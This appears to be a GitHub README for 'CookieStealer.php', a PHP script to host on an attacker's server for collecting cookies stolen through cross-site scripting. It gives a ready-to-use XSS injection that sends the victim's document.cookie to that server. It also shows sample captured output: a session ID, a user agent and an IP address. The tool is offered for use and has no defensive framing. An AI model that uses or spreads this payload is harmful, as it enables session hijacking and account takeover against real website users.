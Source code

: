 # CookieStealer.php
A PHP script to run on your server to grab cookies through xss.
Place in your webserver root folder, give permissions and start server

example injection:

<script>
var i = new Image();
i.src="http://your_server.site/cookiestealer.php?g="+document.cookie;
</script>

example output:

Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
g=PHPSESSID=8lb9e51o6c4449rbjfhfi1prru4
192.168.1.69
